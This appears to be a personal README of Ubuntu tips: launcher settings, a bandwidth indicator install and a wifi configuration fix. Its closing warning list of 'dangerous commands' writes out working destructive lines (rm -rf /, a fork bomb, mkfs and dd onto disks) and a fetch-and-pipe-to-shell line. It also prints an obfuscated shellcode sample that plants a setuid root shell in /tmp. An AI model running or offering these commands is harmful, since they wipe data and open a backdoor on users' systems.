 # Linux Stuff

## Move Unity Launcher (Icon Bar)

```gsettings set com.canonical.Unity.Launcher launcher-position Bottom```

```gsettings set com.canonical.Unity.Launcher launcher-position Left```

## Bandwidth Monitor (Indicator Netspeed - Unity)

```sudo apt-get install dconf-editor```

```sudo apt-add-repository ppa:fixnix/netspeed```

```sudo apt-get update```

```sudo apt-get install indicator-netspeed-unity```

## Ubuntu 17.04
### If Wifi is not connecting

####Edit the file /etc/NetworkManager/NetworkManager.conf

```sudo su```

```pico /etc/NetworkManager/NetworkManager.conf```

####Add the following code at the end of this file

```[device]
wifi.scan-rand-mac-address=no```

####After saving simply restart the network

```sudo service network-manager restart```


## Most Dangerous Commands For Ubuntu

```rm command in Linux is used to delete files.```

```rm -r command deletes the folder recursively, even the empty folder.```

```rm -f command removes ‘Read only File’ without asking.```

```rm -rf / : Force deletion of everything in root directory.```

```rm -rf * : Force deletion of everything in current directory/working directory.```

```rm -rf . : Force deletion of current folder and sub folders.```

```:(){:|:&};:```

```mv /home/user/* /dev/null```

```wget http://malicious_source -O- | sh```

```mkfs.ext3 /dev/sda```

```dd if=/dev/random of=/dev/sda```

```char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
“\x6e\x2f\x73\x68\x00\x2d\x63\x00″
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;```
